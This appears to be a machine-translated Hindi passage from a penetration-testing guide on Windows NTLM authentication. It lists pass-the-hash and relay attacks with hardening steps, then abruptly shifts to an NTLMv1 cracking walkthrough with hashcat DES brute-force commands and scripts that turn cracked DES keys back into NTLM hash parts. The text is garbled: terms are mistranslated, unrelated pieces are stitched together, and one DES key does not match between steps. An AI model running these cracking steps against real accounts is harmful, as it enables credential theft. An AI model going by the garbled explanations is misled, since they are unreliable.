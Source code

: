 ```
3. **पुष्टि (Authentication)**: क्लाइंट चुनौती का सही उत्तर देता है और सर्वर उपयोगकर्ता को सत्यापित करता है।

## एनटीएलएम के सुरक्षा चुनौतियाँ

एनटीएलएम के कुछ महत्वपूर्ण सुरक्षा चुनौतियाँ हैं:

1. **पाठ्यक्रम चुनौती (Pass-the-Hash)**: इसमें हैश वैल्यू को चुनौती के रूप में उपयोग किया जाता है जिससे हमेशा के लिए उपयोगकर्ता के खाते में प्रवेश किया जा सकता है।
2. **एनटीएलएम रिले अटैक (NTLM Relay Attack)**: इसमें हम एक बीचवाला होते हैं और एक सर्वर के साथ एक एनटीएलएम सत्यापन सत्र शुरू करते हैं, जिसे हम उस सर्वर के लिए उपयोगकर्ता के रूप में सत्यापित करने के लिए उपयोग कर सकते हैं।
3. **एनटीएलएम लीक (NTLM Leak)**: इसमें हम एनटीएलएम विन्यास चरण में एन्क्रिप्शन और हैश अल्गोरिदम के लिए अद्यतन कर सकते हैं और इसे उपयोगकर्ता के पासवर्ड को प्राप्त करने के लिए उपयोग कर सकते हैं।

## एनटीएलएम हार्डनिंग के लिए उपाय

एनटीएलएम को हार्डन करने के लिए निम्नलिखित उपायों का पालन करें:

1. **लॉकआउट नीति कॉन्फ़िगर करें**: लॉकआउट नीति को कॉन्फ़िगर करें ताकि अगर कोई उपयोगकर्ता निरंतर गलत पासवर्ड दर्ज करता है, तो उनका खाता लॉक हो जाए।
2. **NTLMv2 का उपयोग करें**: NTLMv2 का उपयोग करें जो एक बेहतर सुरक्षा स्तर प्रदान करता है और पाठ्यक्रम चुनौती को रोकने में मदद करता है।
3. **लॉकआउट नीति की जांच करें**: नियमित अंतराल पर लॉकआउट नीति की जांच करें और उन्हें अद्यतित रखें।
4. **एनटीएलएम विन्यास को अद्यतित करें**: नवीनतम सुरक्षा अद्यतनों के साथ एनटीएलएम विन्यास को अद्यतित करें ताकि किसी भी नई सुरक्षा चुनौती से बचा जा सके।

## संग्रहीत पाठ

इस दस्तावेज़ में हमने एनटीएलएम प्रोटोकॉल के बारे में जानकारी प्रदान की है और विंडोज प्लेटफ़ॉर्म पर एनटीएलएम को हार्डन करने के लिए कुछ सुरक्षा उपायों को समझाया है। यदि आप अधिक जानकारी चाहते हैं, तो कृपया इस दस्तावेज़ के संदर्भ स्रोतों का उपयोग करें।
```
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```
यह कई दिन लगा सकता है, इसलिए हैशकैट (hashtopolis जैसे एक टूल के माध्यम से वितरित करना सबसे अच्छा है) चलाएं।
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```
इस मामले में हमें इसका पासवर्ड पता है जो password है, इसलिए हम डेमो के लिए धोखा देंगे:
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```
अब हमें हैशकैट-उपयोगिताओं का उपयोग करके क्रैक किए गए DES कुंजी को NTLM हैश के भाग में बदलने की आवश्यकता है:
```
./hashcat-utils/src/deskey_to_ntlm.pl b55d6d05e7792753
b4b9b02e6f09a9 # this is part 1
